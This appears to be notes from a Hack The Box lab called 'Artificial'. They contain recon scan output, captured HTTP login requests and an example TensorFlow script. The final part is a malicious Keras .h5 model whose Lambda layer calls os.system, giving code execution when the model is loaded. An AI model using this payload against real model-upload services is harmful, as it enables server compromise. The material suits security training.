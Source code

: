 nmap output:
```
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

gobuster output:
```
/dashboard            (Status: 302) [Size: 199] [--> /login]
/logout               (Status: 302) [Size: 189] [--> /]
/login                (Status: 200) [Size: 857]
/register             (Status: 200) [Size: 952]
```

nikto output:
```
+ HEAD nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
```

whatweb output:
```
Summary   : HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], Matomo, nginx[1.18.0], Script
```

register request:
```
POST /register HTTP/1.1
Host: artificial.htb
Content-Length: 67
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://artificial.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/register
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=random4321&email=random4321%40mail.net&password=random4321
```

login request:
```
POST /login HTTP/1.1
Host: artificial.htb
Content-Length: 47
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://artificial.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/login
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=random4321%40mail.net&password=random4321
```

dashboard request:
```
GET /dashboard HTTP/1.1
Host: artificial.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyX2lkIjo3LCJ1c2VybmFtZSI6InJhbmRvbTQzMjEifQ.aJZgPw.oEFDyLs3mb8ucwx9O6sCQaq7uY4
Connection: keep-alive
```

decoded jwt header:
```
{
  "user_id": 7,
  "username": "random4321"
}
```

static/requirements.txt content:
```
tensorflow-cpu==2.13.1
```

static/Dockerfile content:
```
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

dashboard page html:
```
<main>
    <section class="dashboard-section">
        <h2>Your Models</h2>
        <p style="color: black;">Upload, manage, and run your AI models here.</p>
        
        <!-- Warning message for TensorFlow version -->
        <p class="version-warning">Please ensure these <a href="/static/requirements.txt">requirements</a> are installed when building your model, or use our <a href="/static/Dockerfile">Dockerfile</a> to build the needed environment with ease.  </p>

        <!-- Upload form -->
        <form id="upload-form" enctype="multipart/form-data" action="/upload_model" method="POST">
            <input type="file" name="model_file" accept=".h5" class="file-input" required="">
            <button type="submit" class="btn" style="color: white;">Upload Model</button>
        </form>

        <!-- List models -->
        <ul class="model-list">
            
        </ul>
    </section>
</main>
```
example h5 code found on home page:
```
import numpy as np
import pandas as pd
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

np.random.seed(42)

# Create hourly data for a week
hours = np.arange(0, 24 * 7)
profits = np.random.rand(len(hours)) * 100

# Create a DataFrame
data = pd.DataFrame({
    'hour': hours,
    'profit': profits
})

X = data['hour'].values.reshape(-1, 1)
y = data['profit'].values

# Build the model
model = keras.Sequential([
    layers.Dense(64, activation='relu', input_shape=(1,)),
    layers.Dense(64, activation='relu'),
    layers.Dense(1)
])

# Compile the model
model.compile(optimizer='adam', loss='mean_squared_error')

# Train the model
model.fit(X, y, epochs=100, verbose=1)

# Save the model
model.save('profits_model.h5')
```

h5 file payload:
```
example h5 code found on home page:
```
import numpy as np
import pandas as pd
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

np.random.seed(42)

# Create hourly data for a week
hours = np.arange(0, 24 * 7)
profits = np.random.rand(len(hours)) * 100

# Create a DataFrame
data = pd.DataFrame({
    'hour': hours,
    'profit': profits
})

X = data['hour'].values.reshape(-1, 1)
y = data['profit'].values

# Payload
def exploit(x):
    import os
    os.system("ls -la")  # Arbitrary command execution
    return x

# Build the model (with payload)
model = keras.Sequential([
    layers.Dense(64, activation='relu', input_shape=(1,)),
    layers.Dense(64, activation='relu'),
    layers.Dense(1),
    layers.Lambda(exploit)
])

# Compile the model
model.compile(optimizer='adam', loss='mean_squared_error')

# Train the model
model.fit(X, y, epochs=100, verbose=1)

# Save the model
model.save('payload.h5')
```
